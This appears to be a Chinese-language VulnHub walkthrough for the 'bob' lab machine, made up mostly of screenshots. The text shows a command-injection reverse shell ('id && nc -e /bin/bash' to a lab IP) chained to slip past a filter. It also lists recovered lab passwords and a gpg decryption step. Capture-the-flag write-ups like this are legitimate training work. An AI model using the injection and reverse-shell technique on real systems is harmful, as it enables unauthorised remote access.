 ```yaml
---
layout: post
title:  "bob"
description: walkthrough
category: vulnhub
---
```


# bob

![image-20200619064614371]({{ site.url }}/assets/bob.assets/image-20200619064614371.png)

![image-20200619064801608]({{ site.url }}/assets/bob.assets/image-20200619064801608.png)



![image-20200619071632161]({{ site.url }}/assets/bob.assets/image-20200619071632161.png)



![image-20200619073444169]({{ site.url }}/assets/bob.assets/image-20200619073444169.png)

![image-20200619073622557]({{ site.url }}/assets/bob.assets/image-20200619073622557.png)

直接nc回弹shell会被过滤掉，试一试用命令连接

```bash
id || nc -e /bin/bash 10.10.10.128 1337		#失败
id && nc -e /bin/bash 10.10.10.128 1337		#成功
```

![image-20200619081420128]({{ site.url }}/assets/bob.assets/image-20200619081420128.png)

home下有4个用户，bob目录下有隐藏的旧密码文件

![image-20200619083020352]({{ site.url }}/assets/bob.assets/image-20200619083020352.png)

```bash
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![image-20200619083557481]({{ site.url }}/assets/bob.assets/image-20200619083557481.png)

```bash
elliot:theadminisdumb
```

![image-20200619084327709]({{ site.url }}/assets/bob.assets/image-20200619084327709.png)

secret挖到最后

![image-20200619084614096]({{ site.url }}/assets/bob.assets/image-20200619084614096.png)

回到之前的文档目录

![image-20200619084829225]({{ site.url }}/assets/bob.assets/image-20200619084829225.png)

看来只剩下login.txt.gpg文件了，这是个加密的txt文件

做了一些枚举，仍没发现有用的线索。

仔细回看之前得到的信息发现

![image-20200619085618690]({{ site.url }}/assets/bob.assets/image-20200619085618690.png)

```bash
HARPOCRATES

```

![image-20200619090613529]({{ site.url }}/assets/bob.assets/image-20200619090613529.png)

使用nc传回kali，

尝试用之前的密码解密

```bash
gpg --batch --passphrase HARPOCRATES -d login.txt.gpg
```



![image-20200619091300916]({{ site.url }}/assets/bob.assets/image-20200619091300916.png)

```bash
bob:b0bcat_
```

![image-20200619091820165]({{ site.url }}/assets/bob.assets/image-20200619091820165.png)

![image-20200619091913730]({{ site.url }}/assets/bob.assets/image-20200619091913730.png)